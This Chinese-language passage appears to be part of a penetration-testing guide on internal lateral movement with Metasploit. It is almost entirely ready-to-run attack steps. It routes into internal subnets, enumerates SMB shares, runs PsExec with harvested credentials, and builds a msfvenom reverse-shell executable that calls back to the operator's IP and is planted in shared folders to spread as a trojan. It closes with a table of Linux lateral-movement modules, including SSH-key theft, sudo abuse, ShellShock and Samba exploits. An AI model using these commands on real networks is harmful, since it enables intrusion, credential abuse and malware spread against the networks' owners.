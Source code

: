 ## 5、内网横移

### 5.1 获取内网信息
- 内网扫描：  
  在获得边界服务器会话后，添加路由以辨别内网结构：
```bash
  run autoroute -s <目标网段>
```
- 扫描内网开放的共享文件夹：
```bash
  use auxiliary/scanner/smb/smb_enumshares
  set RHOSTS <目标子网>
  run
```

### 5.2 横向移动
- 利用PsExec攻击其他主机：
```bash
  use exploit/windows/smb/psexec
  set SMBUser <用户名>
  set SMBPass <密码>
  set RHOSTS <目标IP>
  run
```
- 利用共享文件夹传播木马：
  使用`msfvenom`生成Payload并上传到共享文件夹：
```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<端口> -f exe -o malware.exe
  upload malware.exe <共享文件路径>
```



### Linux 内网横移模块

| 模块名称                                   | 模块路径                                       |
| --------------------------------------- | ------------------------------------------ |
| 利用 SSH 横移                            | `auxiliary/scanner/ssh/ssh_login`          |
| 利用 Telnet 横移                         | `auxiliary/scanner/telnet/telnet_login`    |
| 利用 Cron 进行自动化横移                 | `post/linux/manage/cron_job_creation`      |
| 利用 NFS 服务横移                        | `auxiliary/scanner/nfs/nfs_mount`          |
| 利用远程共享目录枚举横移目标             | `post/linux/gather/shares_enum`            |
| 利用 SSH Key 文件进行横移                | `post/linux/gather/ssh_auth_keys`          |
| 利用 Sudo 缺陷实现横移                   | `post/linux/manage/escalate_with_sudo`     |
| 利用 RPC 横移                            | `auxiliary/scanner/nfs/nfs_rpc_statd`      |
| 利用 ShellShock 漏洞横移                 | `exploit/multi/http/bash_env_exec`         |
| 利用 Samba 服务横移                      | `exploit/multi/samba/usermap_script`       |
